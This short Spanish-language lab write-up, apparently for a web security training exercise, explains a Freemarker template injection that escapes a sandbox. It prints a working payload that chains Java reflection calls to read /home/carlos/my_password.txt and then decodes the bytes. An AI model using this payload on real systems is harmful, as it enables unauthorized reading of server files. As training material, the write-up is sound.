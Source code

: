 En esta clase explotamos una SSTI en Freemarker dentro de un entorno supuestamente aislado. Usamos el objeto **product** como punto de entrada para encadenar métodos de Java como ‘**getClass()**‘, ‘**getProtectionDomain()**‘ y ‘**openStream()**‘ hasta acceder al archivo sensible ‘**/home/carlos/my_password.txt**‘.

Obtenemos su contenido como bytes ASCII y lo convertimos para resolver el laboratorio, demostrando que incluso los entornos con sandbox pueden ser vulnerables si no se aíslan correctamente los métodos de reflexión.

Solucion
aqui nos encontramos con el mismo de freemarker
![Pasted_image_20250814203648.png](/Imagenes/Pasted_image_20250814203648.png)
entonce nos vamos a buscar el payload
![Pasted_image_20250814204301.png](/Imagenes/Pasted_image_20250814204301.png)
y lo ideal una ves terminado de configurar el payload sera convertirlo ascii
(${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")})
![Pasted_image_20250814204346.png](/Imagenes/Pasted_image_20250814204346.png)
https://www.prepostseo.com/tool/decimal-to-ascii
![Pasted_image_20250814204605.png](/Imagenes/Pasted_image_20250814204605.png)
